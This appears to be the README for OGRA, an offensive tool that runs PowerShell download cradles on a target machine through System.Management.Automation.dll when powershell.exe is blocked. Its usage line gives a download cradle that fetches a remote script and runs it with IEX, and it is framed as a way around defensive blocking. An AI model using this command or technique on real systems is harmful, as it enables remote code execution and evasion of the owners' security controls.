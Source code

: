 # OGRA

Powershell(less) remote powershell script execution (Download Cradle method) via System.Management.Automation.dll.

Useful in situations where powershell.exe is blocked or not present on a target system.

Requires >= .NET Framework 4.5.2

Usage:
ogra.exe "IEX (New-Object Net.WebClient).DownloadString('https://remote/script.ps1');"

Prior to compiling, you'll need to add a Reference in your Visual Studio project to the system automation DLL. You can find the path to it by executing the following from a powershell prompt:

[PSObject].Assembly.Location
